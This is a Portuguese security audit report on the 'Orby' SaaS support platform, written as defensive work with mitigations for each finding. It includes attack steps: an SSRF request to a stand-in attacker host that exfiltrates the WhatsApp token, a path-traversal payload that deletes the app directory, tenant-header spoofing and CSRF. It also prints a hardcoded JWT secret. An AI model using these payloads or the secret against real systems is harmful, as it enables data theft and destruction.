

# 📑 ENTERPRISE CYBERSECURITY AUDIT REPORT
**Projeto:** Orby Omnichannel SaaS Support Platform  
**Auditor Lead:** Principal Cybersecurity Architect & Lead Application Security Auditor  
**Data da Auditoria:** 18 de Maio de 2026  
**Classificação:** Altamente Confidencial (Restrito para Investidores e Diretoria)  
**Status de Readiness Enterprise:** **INSUFICIENTE / RISCO DE COLAPSO CRÍTICO**

---

## 1. EXECUTIVE SECURITY SUMMARY

### 1.1. Visão Geral da Maturidade
O **Orby** é uma plataforma SaaS Omnichannel com uma interface de usuário refinada, fluxos de Kanban fluidos e uma proposta de integração híbrida de WhatsApp (API Oficial + Bridge QR Code) comercialmente atraente. Contudo, sob a ótica de segurança de aplicações corporativas, a plataforma encontra-se em um estado de **protótipo altamente vulnerável**. 

A arquitetura de dados e de controle de sessões apresenta vulnerabilidades fundamentais que inviabilizam completamente a sua utilização por clientes de nível enterprise. A ausência de validação de limites de confiança (*trust boundaries*) e o desrespeito a princípios básicos do **Secure SDLC** expõem a plataforma a vazamentos massivos de dados, destruição remota de infraestrutura, sequestro de sessões e exfiltração de credenciais administrativas.

### 1.2. Principais Riscos Sistêmicos
1. **Bypass Completo de Isolamento SaaS (Multi-Tenancy Breakdown):** Devido a um erro de design arquitetural grave no Spring Boot, o filtro do Hibernate para isolamento de clientes (*Tenant Filter*) só é aplicado nas classes de *Service*. Como múltiplos controladores injetam e chamam *Repositories* diretamente, dezenas de endpoints expõem dados cruzados de todas as empresas clientes (vazamento total de banco de dados / BOLA / IDOR).
2. **Server-Side Request Forgery (SSRF) com Exfiltração de Token da Meta:** O endpoint `/api/media/proxy` aceita qualquer URL sem sanitização e realiza requisições HTTP internas anexando o Bearer Token oficial do WhatsApp da Meta nos cabeçalhos. Isso permite a um invasor obter o Token da Meta do SaaS ou fazer escaneamento de portas internas da nuvem (Intranet).
3. **Escuta Não Autorizada em Tempo Real via WebSockets (STOMP Hijacking):** Os canais WebSocket (`/ws`) carecem de interceptadores de autenticação ou autorização. Qualquer usuário autenticado no sistema (ou mesmo sem token dependendo da rota) pode se inscrever em tópicos de conversas de qualquer cliente (`/topic/chat/{ticketId}`) e ler mensagens privadas em tempo real.
4. **Destruição de Diretórios e Negação de Serviço no Node.js Bridge:** O microsserviço Node.js aceita entradas de caminhos de arquivo no campo `instanceName` sem validação. Um payload simples de Path Traversal (`../../../`) permite que um invasor remoto execute uma deleção recursiva (`fs.rmSync`) de pastas críticas do host operacional.

### 1.3. Nível de Enterprise Readiness
* **Classificação de Maturidade:** `PROTÓTIPO MVP VULNERÁVEL`
* **Prontidão para Due Diligence:** **Reprovado**. Qualquer auditoria de segurança corporativa ou análise de fusões e aquisições (M&A) bloquearia o go-to-market do produto no estado atual.
* **Risco Legal e Regulatório:** **Extremamente Alto**. O vazamento cruzado de chamados e históricos viola gravemente os pilares de confidencialidade da **LGPD (Art. 46)** e do **GDPR (Art. 32)**, gerando exposição a multas severas e responsabilidade civil.

---

## 2. VULNERABILITY REGISTER

### 🚨 VULNERABILIDADE 1: Multi-Tenancy Bypass via Injeção Direta de Repositories em Controllers (BOLA / IDOR)
* **Categoria:** Quebra de Controle de Acesso em Nível de Objeto (OWASP API 1:2023 - BOLA)
* **Severidade:** **CRITICAL (CVSS v3.1: 9.9)**
* **Probabilidade:** Alta
* **Facilidade de Exploração:** Extremamente Fácil
* **Pré-requisitos:** Atendente autenticado com conta de baixo privilégio em qualquer tenant.
* **Cenário de Exploração:**
  1. O invasor obtém acesso a uma conta legítima do tenant `empresa_a`.
  2. Ao navegar, o painel consome o endpoint `/management/standby-reasons`.
  3. O `StandByReasonController` recebe a chamada HTTP GET. Ele injeta diretamente o `StandByReasonRepository` e executa `repository.findAll()`.
  4. Como a injeção do repositório ocorre diretamente no controlador, ela **ignora por completo** o Aspecto `TenantFilterAspect.java` (que apenas intercepta pacotes `.service.`).
  5. A query SQL do Hibernate compila **sem a cláusula** `WHERE tenant_id = ?`.
  6. O backend retorna todas as regras de stand by de todas as empresas concorrentes cadastradas no SaaS.
  7. O mesmo comportamento se repete para chamadas a configurações (`ConfigController`), exclusão de submotivos e gerenciamento de clientes.
* **Impacto Técnico:** Quebra absoluta do isolamento lógico do banco de dados multitenant. Acesso irrestrito de leitura e escrita a entidades sensíveis de outros inquilinos.
* **Impacto Operacional:** Sabotagem e vazamento de regras de negócios de concorrentes.
* **Impacto Regulatório:** Violação direta da LGPD por falta de medidas de segurança adequadas na custódia de dados.
* **Mitigação Imediata:** Proibir sumariamente qualquer injeção direta de `Repository` dentro dos controladores do Spring Boot. Todo e qualquer fluxo de dados deve transitar obrigatoriamente pelas classes de `Service` interceptadas pelo AOP Aspect.
* **Correção Estrutural:** Refatorar a arquitetura aplicando a anotação `@Around` do AOP também nos controladores ou, preferencialmente, implementar um interceptador do Hibernate em nível de transação de banco de dados (`Session.enableFilter`) amarrado ao ciclo de vida da transação da requisição HTTP (`HandlerInterceptor`), removendo o acoplamento do Aspecto em classes específicas.

---

### 🚨 VULNERABILIDADE 2: Server-Side Request Forgery (SSRF) com Exfiltração de Token Administrativo do WhatsApp (Meta)
* **Categoria:** Server-Side Request Forgery (OWASP Top 10 - A10:2021)
* **Severidade:** **CRITICAL (CVSS v3.1: 9.8)**
* **Probabilidade:** Alta
* **Facilidade de Exploração:** Fácil
* **Pré-requisitos:** Usuário operador autenticado (qualquer privilégio).
* **Cenário de Exploração:**
  1. O endpoint de proxy de mídias do WhatsApp `/api/media/proxy?url=URL_ALVO` é acionado pelo atendente.
  2. Um atacante fornece a URL de um servidor sob seu controle: `/api/media/proxy?url=http://attacker-controlled-server.com`.
  3. O `MediaController.java` executa a requisição GET interna usando `restTemplate.exchange(...)`.
  4. O backend Java anexa o token Bearer oficial do WhatsApp Meta (`headers.setBearerAuth(apiToken)`) a essa requisição HTTP de saída.
  5. O servidor do atacante recebe o tráfego e extrai do cabeçalho HTTP `Authorization` o Token completo da Meta do Orby (exfiltração direta).
  6. O atacante agora possui controle completo da conta do WhatsApp da empresa no Facebook Business.
  7. O mesmo endpoint permite realizar escaneamento de portas na intranet local (`localhost`, portas internas de Kubernetes, metadados de nuvem `169.254.169.254`).
* **Impacto Técnico:** Exfiltração total de chaves secretas de infraestrutura integradas (Meta Token) e varredura de redes privadas corporativas.
* **Impacto Operacional:** Perda completa da identidade corporativa no WhatsApp, permitindo disparos em massa, roubo de contatos e fraudes usando o número oficial.
* **Impacto Financeiro:** Bloqueios de conta da Meta, custos com disparos em massa de SPAM realizados pelo atacante e potenciais multas por uso indevido.
* **Mitigação Imediata:** Validar rigorosamente o parâmetro `url` recebido em `MediaController`. Rejeitar qualquer requisição cujo domínio não termine estritamente em domínios oficiais da Meta (`.facebook.com` ou `.fbsbx.com`).
* **Correção Estrutural:** Implementar uma lista de permissões (*allowlist*) restrita de domínios confiáveis para o proxy de mídias e **nunca** encaminhar cabeçalhos de autenticação administrativa (`Authorization`) para URLs dinâmicas passadas como parâmetro na requisição do cliente.

---

### 🚨 VULNERABILIDADE 3: WebSocket Hijacking e Eavesdropping de Conversas Privadas sem Autenticação/Autorização
* **Categoria:** Falha de Autenticação e Autorização (OWASP API 2:2023 / API 5:2023)
* **Severidade:** **HIGH (CVSS v3.1: 8.8)**
* **Probabilidade:** Alta
* **Facilidade de Exploração:** Fácil
* **Pré-requisitos:** Estar autenticado no sistema (ou interceptar o handshake).
* **Cenário de Exploração:**
  1. A conexão WebSocket é registrada em `WebSocketConfig.java` apontando para o endpoint público `/ws`.
  2. Não há nenhuma configuração de segurança de canais (`ChannelInterceptor`) habilitada no ecossistema Spring WebSocket.
  3. Um atacante conecta-se via cliente STOMP genérico e solicita inscrição (`SUBSCRIBE`) no tópico `/topic/chat/{ticketId}` correspondente a um ticket de outra empresa (ex: `ticketId = 999`).
  4. O servidor aceita a inscrição sem validar se o operador pertence ao tenant dono daquele ticket.
  5. O atacante passa a receber todas as mensagens trocadas em tempo real entre o cliente e o suporte concorrente, capturando PII, dados bancários e informações confidenciais.
* **Impacto Técnico:** Escuta não autorizada de canais de dados privados e capacidade de injeção direta de mensagens falsas em chats ativos.
* **Impacto Operacional:** Espionagem industrial ativa dentro da plataforma SaaS.
* **Impacto Regulatório:** Vazamento gravíssimo de dados sensíveis de clientes finais.
* **Mitigação Imediata:** Implementar um interceptador de mensagens WebSocket (`ChannelInterceptor`) que valide a presença do token JWT no cabeçalho STOMP durante o handshake `CONNECT` e verifique a propriedade do `tenantId` e permissão do operador durante o evento de `SUBSCRIBE` a qualquer canal de chat.
* **Correção Estrutural:** Adotar o Spring Security para WebSockets (`securityDialect` com STOMP) para garantir que regras de autorização baseadas em expressão de segurança protejam os canais de recebimento e envio de mensagens em tempo real.

---

### 🚨 VULNERABILIDADE 4: Destruição Remota de Arquivos e DoS via Path Traversal no WhatsApp Bridge
* **Categoria:** Validação Incorreta de Entrada e Path Traversal (OWASP Top 10 - A03:2021)
* **Severidade:** **HIGH (CVSS v3.1: 8.6)**
* **Probabilidade:** Média-Alta
* **Facilidade de Exploração:** Fácil
* **Pré-requisitos:** Acesso à API do Bridge (pública a nível de rede).
* **Cenário de Exploração:**
  1. O microsserviço Node.js expõe a API de encerramento de sessão `/api/instance/logout/:instanceName`.
  2. Um atacante envia uma chamada HTTP com payload de escape de diretório: `POST /api/instance/logout/..%2F..%2F..%2Fapp-root`.
  3. O código calcula `sessionDir` usando `path.join(__dirname, 'sessions', instanceName)`, que se resolve para a raiz da aplicação.
  4. O Node executa recursivamente `fs.rmSync(sessionDir, { recursive: true, force: true })`.
  5. Toda a pasta de código-fonte e dependências da aplicação é sumariamente apagada do servidor host, derrubando o serviço de forma irrecuperável sem deploy.
* **Impacto Técnico:** DoS permanente na infraestrutura do bridge e capacidade de deleção de arquivos arbitrários nos diretórios do sistema operacional aos quais a aplicação tem permissão de escrita.
* **Impacto Operacional:** Interrupção total dos serviços de suporte de todos os clientes do SAAS simultaneamente.
* **Mitigação Imediata:** Higienizar o parâmetro `instanceName` no Node.js. Bloquear caracteres como `..`, `/` e `\`.
* **Correção Estrutural:** Utilizar bibliotecas de sanitização de caminhos ou adotar UUIDs gerados internamente no banco de dados como identificadores de instâncias, impedindo que strings vindas da requisição do cliente sejam concatenadas diretamente em chamadas de I/O do sistema de arquivos.

---

### 🚨 VULNERABILIDADE 5: Injeção de Contexto Multitenant via Cabeçalho HTTP Customizado (Tenant Spoofing)
* **Categoria:** Broken Access Control (OWASP Top 10 - A01:2021)
* **Severidade:** **HIGH (CVSS v3.1: 8.5)**
* **Probabilidade:** Média-Alta
* **Facilidade de Exploração:** Fácil
* **Pré-requisitos:** Envio de requisição maliciosa forjando cabeçalhos HTTP.
* **Cenário de Exploração:**
  1. O `TenantInterceptor.java` tenta descobrir o tenant da requisição.
  2. Ele tenta obter do JWT. Caso o atacante não envie um JWT válido, ou chame endpoints que não exigem validação prévia de token, o interceptador avalia o cabeçalho `X-Tenant-ID`.
  3. Um atacante externo envia uma requisição simulada com o cabeçalho `X-Tenant-ID: victim_tenant`.
  4. O sistema altera o `TenantContext` de forma imperativa para `victim_tenant`.
  5. Rotas públicas ou integradas do sistema passam a operar e gravar dados dentro do escopo da vítima, adulterando tickets, injetando mensagens falsas ou roubando logs operacionais.
* **Impacto Técnico:** Spoofing completo de contexto organizacional do SaaS multitenant.
* **Impacto Operacional:** Injeção de dados falsos e degradação de integridade operacional de clientes corporativos.
* **Mitigação Imediata:** Validar que o cabeçalho `X-Tenant-ID` seja aceito **apenas** quando a requisição for autenticada como um serviço interno (M2M) ou pelo perfil `MASTER` administrador do SaaS.
* **Correção Estrutural:** A definição do Tenant de um usuário deve residir **exclusivamente** no payload assinado do JWT (Token criptográfico). Nunca utilize cabeçalhos HTTP puros enviados pelo cliente para ditar limites de acesso lógico de segurança.

---

### 🚨 VULNERABILIDADE 6: Cross-Site Request Forgery (CSRF) com Sessão em Cookie HttpOnly
* **Categoria:** Cross-Site Request Forgery (OWASP Top 10 - A01:2021)
* **Severidade:** **HIGH (CVSS v3.1: 8.2)**
* **Probabilidade:** Média
* **Facilidade de Exploração:** Média
* **Pré-requisitos:** Enganar um operador autenticado do Orby para visitar uma página web maliciosa de terceiros.
* **Cenário de Exploração:**
  1. O Orby desabilita a proteção CSRF no backend: `http.csrf(csrf -> csrf.disable())`.
  2. A sessão do operador autenticado é armazenada em um Cookie chamado `jwt`.
  3. O operador acessa o dashboard do Orby. Em outra aba do navegador, ele entra em um site malicioso.
  4. O site malicioso executa um script em background fazendo um POST oculto para `http://localhost:8080/api/management/clients`.
  5. Como os Cookies são enviados automaticamente pelo navegador nas requisições HTTP e o CSRF está desligado, o Spring Boot aceita a requisição, cadastrando ou alterando dados sensíveis de clientes do SaaS usando as credenciais do operador legítimo de forma invisível.
* **Impacto Técnico:** Execução de ações administrativas não autorizadas sob a identidade de operadores legítimos.
* **Impacto Operacional:** Risco de alteração massiva de configurações do sistema, cadastro de novos operadores fraudulentos e vazamento silencioso de dados.
* **Mitigação Imediata:** Habilitar a proteção de CSRF do Spring Security (`http.csrf(Customizer.withDefaults())`) e configurar o Cookie `jwt` com a diretiva `SameSite=Strict`.
* **Correção Estrutural:** Migrar o transporte de sessão do modelo Cookie-Based sem tokens adicionais para o modelo de cabeçalho explicitamente gerenciado (Bearer Token no Header `Authorization` via Storage isolado do Javascript do React), neutralizando a mecânica automatizada de envio de Cookies do navegador.

---

## 3. ARCHITECTURAL WEAKNESSES

### 3.1. Falha Estrutural de Confiança: Uso de Java Reflection entre Controladores
No `WhatsAppBridgeController.java` (linha 97), o sistema executa um bypass de acoplamento executando o método `private` de outro controlador via reflexão Java (`webhookController.handleIncomingMessage`).
* **Risco de Design:** Isso quebra o encapsulamento do ecossistema de classes, degrada a performance e impede a validação adequada dos dados trafegados. Se o método sofrer refatorações, o compilador não detectará o erro, gerando quebras em tempo de execução no fluxo de alta criticidade de recebimento de mensagens.
* **Solução:** Remover a injeção por reflexão imediatamente. A lógica de negócio deve ser extraída dos controladores e inserida em um `ChatService` comum, que deve ser injetado via construtor padrão (IoC do Spring).

### 3.2. Riscos de Escala e Persistência de Dados em Dev Mode
A aplicação utiliza banco de dados **H2 em memória** (`jdbc:h2:mem:orbydb`) com a estratégia Hibernate `update`/`create-drop`.
* **Risco de Escala:** Em produção, se o processo sofrer reinicializações por falhas de memória ou atualizações de servidor, 100% dos dados dos clientes (tenants), operadores, chamados abertos e histórico de mensagens são apagados do planeta.
* **Solução:** Migrar urgentemente o driver de banco de dados para PostgreSQL ou MariaDB persistido e utilizar ferramentas de migração de schema controlada, como **Flyway** ou **Liquibase**.

### 3.3. DLP Gaps e Malware Upload
Não há nenhum tipo de controle ou sandbox no upload de mídias (`ChatController.java` linha 78). Um operador (ou um cliente final via WhatsApp) pode realizar o upload de arquivos binários executáveis maliciosos (`.exe`, `.sh`, `.bat`, etc.) contendo vírus, exploits ou ransomware. A plataforma armazenará este arquivo e enviará a URL para o operador ou para o celular do cliente final, atuando como um vetor involuntário de distribuição de malware.

---

## 4. DEVSECOPS MATURITY REVIEW

### 4.1. Pipeline e Deploy Hardcoded
O sistema apresenta dezenas de chaves e strings hardcoded em múltiplos arquivos:
* O token Bearer da Meta do WhatsApp está exposto como texto puro em `application.properties` (linha 25).
* A chave secreta do JWT está hardcoded como fallback padrão (`app.security.jwt.secret=VGhpc0lzQVNlY3JldEtleUZvck9yYnlDaGF0QXBwMTIzNA==`).
* URLs de desenvolvimento (`localhost:8080`, `localhost:3333`) estão hardcoded no frontend React.

### 4.2. Monitoramento e Logging Inexistentes
Não há logs estruturados e monitorados de segurança (Auditing). Tentativas de login malsucedidas, alterações de permissão de operadores e acessos a dados multi-tenant ocorrem sem auditoria centralizada. Caso ocorra um incidente real de vazamento de dados, o time de segurança será incapaz de auditar quem, quando e como acessou as informações devido à ausência de logs assinados digitalmente.

---

## 5. PRIORITIZED SECURITY ROADMAP

### 5.1. Ações Imediatas (0–30 dias)
1. **Sanear Repositories:** Mover toda e qualquer consulta de banco de dados de controladores para classes de `Service`, garantindo o funcionamento do `TenantFilterAspect`.
2. **Estancar SSRF:** Restringir URLs no `MediaController` a domínios Meta conhecidos e **retirar** o envio automático do Bearer Token nos proxies.
3. **Auditar H2 Console:** Desabilitar a console H2 (`spring.h2.console.enabled=false`) em ambiente de teste integrado e de staging/produção.

### 5.2. Ações de Curto Prazo (1–3 meses)
1. **Autenticação em WebSockets:** Criar um `ChannelInterceptor` no Spring Boot para validar tokens JWT e isolamento de tenants nos handshakes e inscrições de canais STOMP.
2. **Sanitização de Caminhos no Bridge:** Validar `instanceName` no Bridge Node.js bloqueando saltos de diretório.
3. **Gestão de Segredos:** Configurar segredos do sistema (JWT Secret, API Tokens) como variáveis de ambiente injetadas em tempo de runtime (ex: AWS Secrets Manager, HashiCorp Vault ou secrets nativos do Docker/Kubernetes).

---

## 6. FINAL SECURITY MATURITY SCORE

Abaixo está a avaliação métrica de conformidade e maturidade da plataforma:

| Dimensão de Segurança | Pontuação Atual | Estado Alvo (Produção Segura) |
| :--- | :---: | :---: |
| **Arquitetura & Design** | `25 / 100` | `90 / 100` |
| **Backend (Spring Boot Security)** | `30 / 100` | `95 / 100` |
| **WhatsApp Bridge (Node.js)** | `40 / 100` | `90 / 100` |
| **Frontend Security (React)** | `50 / 100` | `85 / 100` |
| **DevSecOps & Secrets** | `20 / 100` | `90 / 100` |
| **Conformidade Legal (LGPD/GDPR)** | `10 / 100` | `100 / 100` |
| **Maturidade Enterprise** | **Reprovado** | **Aprovado para Escala** |

### Veredito Final de Auditoria
A plataforma **Orby** apresenta um grande potencial comercial de usabilidade e integração. Contudo, **a sua liberação comercial ou integração com redes de clientes corporativos (Enterprise) deve ser suspensa imediatamente** até que o roadmap de remediação de segurança das seções anteriores seja executado em sua totalidade.
